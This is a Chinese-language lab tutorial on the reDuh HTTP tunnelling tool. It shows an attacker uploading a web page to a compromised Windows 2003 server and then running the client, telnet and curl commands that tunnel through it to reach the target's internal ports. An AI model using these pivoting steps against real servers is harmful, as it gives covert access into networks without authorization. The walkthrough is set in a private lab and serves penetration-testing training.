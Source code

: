 ### 3.4 HTTP 隧道 reDun

**reDuh简介：**

reDuh是sensepost由2008-07年发布，从本质上讲，可以将JSP/PHP/ASP/ASPX等页面上传到目标服务器，便可以访问该服务器后面的主机。

**BlackHat USA 2008介绍：**

    https://drive.google.com/open?id=1AqmtuBnHQJS-FjVHzJMNNWokda048By-
    
        

**Github：**

    https://github.com/sensepost/reDuh
    
        

**攻击机：**

    192.168.1.5 Debian
    192.168.1.4 Windows 7
    
        

**靶机：**

    192.168.1.119 Windows 2003
    
        

**安装：**

    root@John:~# git clone https://github.com/sensepost/reDuh.git
    Cloning into 'reDuh'...
    remote: Enumerating objects: 47, done.
    remote: Total 47 (delta 0), reused 0 (delta 0), pack‐reused 47
    Unpacking objects: 100% (47/47), done.
    root@John:~# cd reDuh/
    root@John:~/reDuh# ls
    README.markdown reDuhClient reDuhServers
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200926223247289.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**靶机执行：**

以aspx为demo

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200926223310544.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**攻击机执行：**

绑定端口：

    root@John:~/reDuh/reDuhClient/dist# java ‐jar reDuhClient.jar http://192.168.1.119/reDuh.aspx
    [Info]Querying remote web page for usable remote service port
    [Info]Remote RPC port chosen as 42000
    [Info]Attempting to start reDuh from 192.168.1.119:80/reDuh.aspx. Using service port 42000. Please wait...
    [Info]reDuhClient service listener started on local port 1010
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200926223334235.png%23pic_center)-
开启新terminal，建立隧道

**命令如下：**

    root@John:~# telnet 127.0.0.1 1010
    Trying 127.0.0.1...
    Connected to 127.0.0.1.
    Escape character is '^]'.
    Welcome to the reDuh command line
    >>[createTunnel]30080:127.0.0.1:80
    Successfully bound locally to port 30080. Awaiting connections.
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200926223402868.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
攻击机端口前后对比：

    root@John:~# netstat ‐ntlp
    Active Internet connections (only servers)
    Proto Recv‐Q Send‐Q Local Address Foreign Address State PID/Program na me
    tcp 0 0 0.0.0.0:902 0.0.0.0:* LISTEN 809/vmware‐authdlau
    tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN 674/sshd
    tcp6 0 0 :::902 :::* LISTEN 809/vmware‐authdlau
    tcp6 0 0 :::22 :::* LISTEN 674/sshd
    root@John:~# netstat ‐ntlp
    Active Internet connections (only servers)
    Proto Recv‐Q Send‐Q Local Address Foreign Address State PID/Program na me
    tcp 0 0 0.0.0.0:902 0.0.0.0:* LISTEN 809/vmware‐authdlau
    tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN 674/sshd
    tcp6 0 0 :::902 :::* LISTEN 809/vmware‐authdlau
    tcp6 0 0 :::1010 :::* LISTEN 6102/java
    tcp6 0 0 :::22 :::* LISTEN 674/sshd
    tcp6 0 0 :::30080 :::\* LISTEN 6102/java
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200926223421514.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
访问攻击机30080端口，既等价于访问靶机80端口

    root@John:~# curl http://192.168.1.5:30080/
    <html> 
    
    <head>
    <meta HTTP‐EQUIV="Content‐Type" Content="text/html; charset=gb2312"> 
    
    <title ID=titletext>建设中</title>
    
    </head> 
    
    <body bgcolor=white> 
    
    ... 
    
    </body>
    
    </html>
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200926223445237.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
遗憾的是reDuh年代久远，使用繁琐，并官方已停止维护。但是它奠定了HTTP隧道

    https://micro8.gitbook.io/micro8/contents-1/91-100/100http-sui-dao-reduh-di-si-ji
    
        

* * *